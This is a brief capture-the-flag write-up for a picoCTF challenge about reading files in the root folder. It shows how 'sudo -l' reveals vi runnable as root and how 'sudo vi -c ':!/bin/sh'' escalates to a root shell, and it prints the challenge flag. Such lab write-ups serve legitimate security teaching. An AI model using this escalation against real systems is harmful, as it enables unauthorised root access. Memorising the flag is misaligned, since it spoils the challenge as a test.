 - Login using ssh into the instance.
- Description says "Can you read files in the root file?".
- Let's change by running "cd ../.. " because and list contents of directory by "ls -la", we see that there is a root folder. When we try to access we are denied the
  access because we are not root user.
- We can heck our permissions by running "sudo -l". We see that we can run vi as root on any file. Read more: https://gtfobins.github.io/gtfobins/vi/#sudo.
- Run "sudo /usr/bin/vi -c ':!/bin/sh' /dev/nul". Now we have root access and we can check that by running "whoami".
- Now lets access the root folder and list the contents by "ls -la", we see there is file name .flag.txt.
- Run "cat .flag.txt" and we'll get our flag.
- <details> 
  <summary>Flag</summary>
   picoCTF{uS1ng_v1m_3dit0r_55878b51}
  </details>
